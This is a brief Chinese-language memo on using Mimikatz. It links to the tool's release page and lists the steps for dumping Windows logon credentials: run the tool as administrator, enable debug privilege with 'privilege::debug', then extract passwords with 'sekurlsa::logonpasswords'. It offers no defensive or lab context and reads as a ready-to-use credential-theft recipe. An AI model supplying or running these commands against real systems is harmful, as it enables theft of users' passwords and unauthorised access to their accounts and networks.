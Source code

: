 ```yaml
---
title: Mimikatz简单使用（备忘）
tags: Mimikatz
---
```

* 下载地址：
[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)
* 简单使用：
	* step1:
以管理员身份运行mimikatz.exe
(根据计算机系统选择相应版本)
	* step2:
```
privilege::debug

#提升权限
```
	* step3:
```
sekurlsa::logonpasswords

#获取密码
```
